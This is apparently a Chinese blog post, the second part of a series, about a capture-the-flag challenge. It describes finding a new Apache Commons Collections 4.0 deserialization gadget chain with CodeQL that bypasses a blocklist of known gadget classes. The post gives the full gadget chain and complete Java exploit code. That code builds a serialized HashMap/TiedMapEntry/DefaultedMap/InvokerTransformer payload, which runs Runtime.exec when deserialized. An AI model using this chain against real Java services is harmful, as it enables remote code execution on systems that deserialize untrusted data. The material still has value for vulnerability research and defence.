






# 探寻新CC利用链之旅(下

## 前言

继续接着上文说起，在文末，我们知道现在面临的新挑战就是过滤了以下类：
```
TransformedMap,
PriorityQueue,
InstantiateTransformer,
TransformingComparator,
TemplatesImpl,
AnnotationInvocationHandler,
HashSet,
Hashtable,
LazyMap
```

## 利用链挖掘

在目前互联网上公开的 CC 链 1-11 中，每条链子都用到了其中一到多个类，这意味着我们需要挖一条不一样的链子。在开始挖之前，我们简单回顾一下目前所学习的 CC 链特点：

- CC0：通过`AnnotationInvocationHandler`代理的`memberValues`触发`setValue()`，从而调用`tranaformeredmap`类的`checksetvalue()`，最后触发`transform()`；
- CC1：通过`AnnotationInvocationHandler`代理的`memberValues`的`enteyset()`方法触发`invoke()`方法，从而调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC2：通过优先级队列`heapify→siftdown`调用到`siftDownUsingComparator()`方法，从而调用`TransformingComparator#compare()`方法（Commons-Collections 4.0才有的特性）触发`transform()`；
- CC3：基于 CC1 进行修改，还是调用`LazyMap`的`get()`方法，最后触发`transform()`，但最后通过`ConstantTransformer`和`InstantiateTransformer`读取`TemplatesImpl`恶意类字节码并实例化；
- CC4：基于 CC2 进行修改，和 CC3 一样改成读取`TemplatesImpl`恶意类字节码并实例化；
- CC5：通过`TiedMapEntry#toString()`方法调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC6：和 CC5 一样通过`TiedMapEntry`类调用`LazyMap`的`get()`方法，但触发过程改为`TiedMapEntry#hashCode() --> TiedMapEntry#getValue()`
- CC7：通过`Hashtable`反序列化调用`AbstractMapDecorator#equals()`方法，进而调用`AbstractMap#equals()`方法，最后调用`LazyMap`的`get()`方法触发`transform()`；
- CC11：基于 CC6 进行修改，使其支持读取`TemplatesImpl`恶意类字节码并实例化；

写到这里，不难发现 CC 链最终都是在找能够触发`transform()`的调用链，所以我们如果要挖新链，就要往这个方向走。那么如何出发呢？

这里有两个路可以走：

- 通过 IDEA 搜索类的特点，并人工去找可能存在的调用关系
- 通过 Codeql 等白盒工具进行自动化筛选

由于我并没有接触过 Codeql，因此我选择第二条路，借这个机会先简单接触学习一下 Codeql。由于本文是 CC 链的主题，所以这里并不会详细说明如何去使用 Codeql，而是写一个方式方法， 应该会在后续另开一个代码审计专区进行详细学习（又给自己挖一个坑~）。

通过`extractor-java `建立好`commons-collections 4.0`的数据库


然后编写查询规则的 ql 文件，写完对应的查询 Source 和 Sink 规则，记得加上黑名单清洗掉不需要的类
```ql
class Sanitizer extends SerializableMethod {
     Sanitizer() {
         exists(RefType cls |
             this.getDeclaringType() = cls and 
             cls.hasName([
                "TransformedMap",
                "PriorityQueue",
                "InstantiateTransformer",
                "TransformingComparator",
                "TemplatesImpl",
                "AnnotationInvocationHandler",
                "HashSet",
                "Hashtable",
                "LazyMap",
                "PrototypeCloneFactory",
                "CursorableSubList",
                "CursorableLinkedList",
                "FastArrayList",
                "FastHashMap",
                "FastTreeMap",
             ])
         )
     }
 }
```

然后开始查询


这里找一条链开始看
```
1	equals 	TiedMapEntry.java:34:19
2	getValue 	TiedMapEntry.java:22:18
3	get 	DefaultedMap.java:66:18
4	transform 	InvokerTransformer.java:49:18
```

这里我们只关注可以通过`TiedMapEntry#getValue()`调用`DefaultedMap#get()`方法触发`transform()`，跟到`DefaultedMap`类看看


可以清楚的看到，当`map`存在对应的映射关系时，通过`value.transform()`方法进行触发，那么`value`是否可控呢？往前看看


可以看到在`DefaultedMap`类中的实例化方法，`value`由传入的`defaultValueTransformer`参数控制，这不齐活了？这里还需要注意一点，实例化方法`DefaultedMap()`被`protected`修饰，因此我们不能通过 new 等方式进行实例化，需要通过反射进行实例化。

现在可以直接写 exp 了，这里我没有用查询出的方式（equals）触发`DefaultedMap#get()`，而是通过`HashMap`触发`hashCode`的方法，链子如下：
```
Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashMap.readObject()
                java.util.HashMap.hash()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections4.map.DefaultedMap.get()
                            org.apache.commons.collections4.functors.ChainedTransformer.transform()
                            org.apache.commons.collections4.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

```

编写代码
```java
package com.serialize;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/12/11 02:01
 */
public class CommonsCollections4New3 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New3 commonsCollections4New3 = new CommonsCollections4New3();
        commonsCollections4New3.serialize();
        commonsCollections4New3.unserialize();
    }


    public void serialize() throws Exception {

        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        // 通过反射实例化DefaultedMap类
        Class cls = Class.forName("org.apache.commons.collections4.map.DefaultedMap");
        Constructor constructor = cls.getDeclaredConstructor(Map.class, Transformer.class);
        constructor.setAccessible(true);
        Map defaultedMap = (DefaultedMap)constructor.newInstance(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out =  new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

成功执行


完成题目


## 写个结束语吧

前面通过查询结果可以看到并不止这么一条，例如另一条通过`InstantiateFactory`实例化恶意字节码的新链子，不过因为题目过滤了`TemplatesImpl`类所以也没有兴趣去实现，粗看是能实现的，有兴趣的师傅可以自行实现。

